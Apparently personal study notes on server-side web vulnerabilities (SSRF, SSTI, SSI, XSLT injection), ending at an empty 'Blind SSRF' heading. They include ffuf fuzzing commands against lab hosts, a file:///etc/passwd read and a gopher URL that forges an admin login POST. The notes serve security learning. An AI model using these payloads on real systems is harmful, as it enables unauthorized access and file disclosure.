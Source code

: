 Classes of Server-side Vulnerabilities : 
- Server-Side Request Forgery (SSRF) - Server-Side Request Forgery (SSRF) is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vulnerability often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.

- Server-Side Template Injection (SSTI) - Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a Server-Side Template Injection vulnerability can occur. SSTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.

- Server-Side Includes (SSI) Injection - Similar to server-side templates, server-side includes (SSI) can be used to generate HTML responses dynamically. SSI directives instruct the webserver to include additional content dynamically. These directives are embedded into HTML files. For instance, SSI can be used to include content that is present in all HTML pages, such as headers or footers. When an attacker can inject commands into the SSI directives, Server-Side Includes (SSI) Injection can occur. SSI injection can lead to data leakage or even remote code execution.

- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection - XSLT (Extensible Stylesheet Language Transformations) server-side injection is a vulnerability that arises when an attacker can manipulate XSLT transformations performed on the server. XSLT is a language used to transform XML documents into other formats, such as HTML, and is commonly employed in web applications to generate content dynamically. In the context of XSLT server-side injection, attackers exploit weaknesses in how XSLT transformations are handled, allowing them to inject and execute arbitrary code on the server.

URL Schemes for exploitation of SSRF : 
- `http://` and `https://`: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network
- `file://`: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI)
- `gopher://`: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases


Command to exploit SSRF :
- `ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"`
- `ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -t 1000`

## Exploiting SSRF
**Accessing Restricted Endpoints** : `ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80" -t 1000`

**Local File Inclusion (LFI)** : `file:///etc/passwd`

**gopher Protocol :**  If we don't have any way to send a POST Request with Login Credentials to the server, we can use this protocol to send the request : 
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

We can use this tool to generate the Gopher URLs : `https://github.com/tarunkant/Gopherus`

## Blind SSRF

